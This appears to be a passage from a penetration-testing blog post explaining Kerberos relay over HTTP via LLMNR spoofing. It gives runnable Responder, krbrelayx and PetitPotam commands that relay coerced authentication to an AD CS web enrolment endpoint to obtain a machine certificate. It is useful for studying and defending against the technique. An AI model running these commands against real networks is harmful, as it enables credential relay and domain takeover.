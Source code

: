 ## Kerberos Relay over HTTP
Kerberos relay over HTTP was introduced in ["Abusing multicast poisoning for pre-authenticated Kerberos relay over HTTP with Responder and krbrelayx"](https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with). A key trick of this relay is that HTTP clients construct the SPN based on the answer name from LLMNR.

#### Prerequisites
We must be able to perform LLMNR spoofing.

#### Examples
When an HTTP client tries to access unresolvable hosts (due to a typo or by abusing the WebClient service), we can perform LLMNR spoofing to respond with a target answer name. The answer name in LLMNR is used to construct the SPN, such as HTTP/ca.kawakatz.local. The client then sends the AP_REQ to us, enabling Kerberos relay.
```sh
# forked Responder: https://github.com/lgandx/Responder
# Disable mDNS and NBT-NS
sudo vim Responder.conf
# Setup Responder 
sudo python3 Responder.py -I ens33 -N ca

# Kerberos relay to HTTP
sudo python3 krbrelayx.py -smb2support -t http://ca.kawakatz.local/certsrv/certfnsh.asp --adcs --template Machine
python3 PetitPotam.py -d kawakatz.local -u coward -p 'P@ssw0rd' nonexist@80/test wks.kawakatz.local

# Abuse the certificate as above...
```
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/41.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Coercing Kerberos authentication over HTTP</div>
</div>
<div style="text-align: center; margin: 20px 0;">